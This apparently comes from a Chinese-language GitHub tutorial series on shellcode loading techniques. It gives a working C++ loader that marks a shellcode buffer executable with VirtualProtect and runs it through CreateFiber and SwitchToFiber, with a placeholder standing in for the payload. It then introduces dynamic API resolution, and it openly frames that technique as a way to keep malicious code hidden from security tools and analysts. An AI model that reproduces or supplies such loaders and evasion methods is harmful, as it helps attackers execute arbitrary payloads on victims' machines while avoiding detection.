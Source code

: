 

# 13.创建纤程加载

## 什么是纤程

纤程（Fiber）是一种轻量级的线程，也被称为协程（Coroutine）或微线程（Microthread）。它们是一种用户级别的线程，由程序自身管理，而不是由操作系统内核管理。纤程是一种可以提高程序执行效率的调度机制，特别适用于需要大量并发执行任务的场景



## 实现代码

```cpp
#include <stdio.h>
#include <Windows.h>

int main() {
    unsigned char buf[] = "shellcode";

    // 修改shellcode所在内存的保护属性为可读、可写、可执行
    DWORD oldProtect;
    VirtualProtect((LPVOID)buf, sizeof(buf), PAGE_EXECUTE_READWRITE, &oldProtect);

    // 将当前线程转换为纤程（轻量级线程）
    ConvertThreadToFiber(NULL);

    // 创建一个纤程对象，关联到shellcode作为纤程入口点，使用默认栈大小和无标志位
    void* shellcodeFiber = CreateFiber(0, (LPFIBER_START_ROUTINE)(LPVOID)buf, NULL);

    // 切换到新创建的纤程，开始执行shellcode
    SwitchToFiber(shellcodeFiber);

    // shellcode执行完毕后，删除纤程对象
    DeleteFiber(shellcodeFiber);

    return 0;
}
```



# 14.动态api函数加载

## 简介

传统的静态导入API函数会在可执行文件的导入表中明确列出所有用到的函数。这使得恶意代码容易被安全工具和分析人员发现，因为敏感API函数的使用通常表明了恶意行为。

而动态调用API函数，如本示例中的代码所展示的，可以在运行时动态解析并获取API函数的地址。这样，敏感函数不会出现在导入表中，从而使得恶意代码更难被发现。此外，动态调用API函数还可以结合其他技术（如代码混淆、加密等）来进一步提高恶意代码的隐蔽性

